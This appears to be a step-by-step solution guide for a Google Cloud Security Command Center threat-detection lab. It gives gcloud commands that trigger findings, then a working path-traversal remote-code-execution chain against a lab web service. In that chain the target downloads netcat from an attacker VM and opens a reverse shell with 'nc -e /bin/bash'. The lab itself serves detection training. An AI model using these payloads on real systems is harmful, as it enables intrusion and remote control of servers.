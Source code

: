 
# Detect and Investigate Threats with Security Command Center [GSP1125]

# If you consider that the video helped you to complete your lab, so please do like and subscribe [Techcps](https://www.youtube.com/@techcps)

* In the GCP Console open the Cloud Shell and enter the following commands:

```
export ZONE=
```
## Note: Go to "IAM & Admin" > "Audit Logs".
* Click the findbar and type: "Cloud Resource Manager API"

* Click the checkbox on "Cloud Resource Manager API" and select "Admin Read" then click save button.

```
gcloud services enable securitycenter.googleapis.com --project=$DEVSHELL_PROJECT_ID

sleep 15

gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

export PROJECT_NUMBER=$(gcloud projects describe $DEVSHELL_PROJECT_ID --format="value(projectNumber)")

gcloud projects remove-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin
```

```
gcloud compute instances create instance-1 --project=$DEVSHELL_PROJECT_ID --zone=$ZONE --machine-type=e2-medium --network-interface=network-tier=PREMIUM,stack-type=IPV4_ONLY,subnet=default --metadata=enable-oslogin=true --maintenance-policy=MIGRATE --provisioning-model=STANDARD --scopes=https://www.googleapis.com/auth/cloud-platform --create-disk=auto-delete=yes,boot=yes,device-name=instance-1,image=projects/debian-cloud/global/images/debian-11-bullseye-v20230912,mode=rw,size=10,type=projects/$DEVSHELL_PROJECT_ID/zones/$ZONE/diskTypes/pd-balanced --no-shielded-secure-boot --shielded-vtpm --shielded-integrity-monitoring --labels=goog-ec-src=vm_add-gcloud --reservation-affinity=any
```

```
gcloud dns --project=$DEVSHELL_PROJECT_ID policies create dns-test-policy --description="Please like and subscirbe to techcps" --networks="default" --alternative-name-servers="" --private-alternative-name-servers="" --no-enable-inbound-forwarding --enable-logging
```

```
gcloud compute ssh --zone "$ZONE" "instance-1" --tunnel-through-iap --project "$DEVSHELL_PROJECT_ID" --quiet --command "gcloud projects get-iam-policy \$(gcloud config get project) && curl etd-malware-trigger.goog"
```
## Note: Check the progress on task 1 & 2
* Do not move until you get score on tast 1 & 2

```
gcloud compute instances delete instance-1 --zone=$ZONE --quiet
```

```
gcloud compute instances create attacker-instance \
--scopes=cloud-platform  \
--zone=ZONE \
--machine-type=e2-medium  \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--no-address

gcloud compute networks subnets update default \
--region=REGION \
--enable-private-ip-google-access
```

## Note: Go to "Compute Engine" > "VM Instances"
* Click the SSH button on attacker-instance

### Note: Step 6 to 10 run in the SSH of the VM


### Note: Go back to Cloud Shell run step 11 to 13 commands


### Note: Go to SSH of the VM and run step 16 17 18 19 commands


### Note: Go back to Cloud Shell run step 20 21 commands


## Note: Check the progress on task 4

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"

gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional

LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}

python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

```
curl http://${LOCAL_IP}:8888

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"

```

```
pkill python
```

```
lsof -i -sTCP:LISTEN

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

## Note: Open the new terminal

```
nc -nlvp 8888
```

## Note: Go back first terminal

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

## Note: Go back to second terminal

```
ls -l /
```

# Congratulations, you're all done with the lab 😄

# Thanks for watching :)
